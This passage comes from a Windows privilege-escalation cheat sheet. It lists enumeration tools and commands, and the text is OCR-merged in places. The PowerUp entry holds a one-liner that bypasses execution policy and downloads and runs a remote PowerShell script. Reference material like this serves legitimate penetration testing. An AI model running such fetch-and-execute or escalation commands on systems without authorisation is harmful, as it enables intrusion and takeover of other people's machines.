 ## Tools

- [PowerSploit’s PowerUp](https://github.com/PowerShellMafia/PowerSploit) `powershell powershell -Version 2 -nop -exec bypass IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1'); Invoke-AllChecks`
- [Watson - Watson is a (.NET 2.0 compliant) C# implementation of Sherlock](https://github.com/rasta-mouse/Watson)
- [(Deprecated) Sherlock - PowerShell script to quickly find missing software patches for local privilege escalation vulnerabilities](https://github.com/rasta-mouse/Sherlock) `powershell powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File Sherlock.ps1`
- [BeRoot - Privilege Escalation Project - Windows / Linux / Mac](https://github.com/AlessandroZ/BeRoot)
- [Windows-Exploit-Suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester) `powershell ./windows-exploit-suggester.py --update ./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo win7sp1-systeminfo.txt`
- [windows-privesc-check - Standalone Executable to Check for Simple Privilege Escalation Vectors on Windows Systems](https://github.com/pentestmonkey/windows-privesc-check)
- [WindowsExploits - Windows exploits, mostly precompiled. Not being updated.](https://github.com/abatchy17/WindowsExploits)
- [WindowsEnum - A Powershell Privilege Escalation Enumeration Script.](https://github.com/absolomb/WindowsEnum)
- [Seatbelt - A C# project that performs a number of security oriented host-survey “safety checks” relevant from both offensive and defensive security perspectives.](https://github.com/GhostPack/Seatbelt)
- [Powerless - Windows privilege escalation (enumeration) script designed with OSCP labs (legacy Windows) in mind](https://github.com/M4ximuss/Powerless)
- [JAWS - Just Another Windows (Enum) Script](https://github.com/411Hall/JAWS) `powershell powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt`

## Windows Version and Configuration

    systeminfo | findstr /B /C:"OS Name" /C:"OS Version"

Extract patchs and updates

    wmic qfe

Architecture

    wmic os get osarchitecture || echo %PROCESSOR_ARCHITECTURE%

List all env variables

    setGet-ChildItem Env: | ft Key,Value

List all drives

    wmic logicaldisk get caption || fsutil fsinfo driveswmic logicaldisk get caption,description,providernameGet-PSDrive | where {$_.Provider -like "Microsoft.PowerShell.Core\FileSystem"}| ft Name,Root

## User Enumeration

Get current username
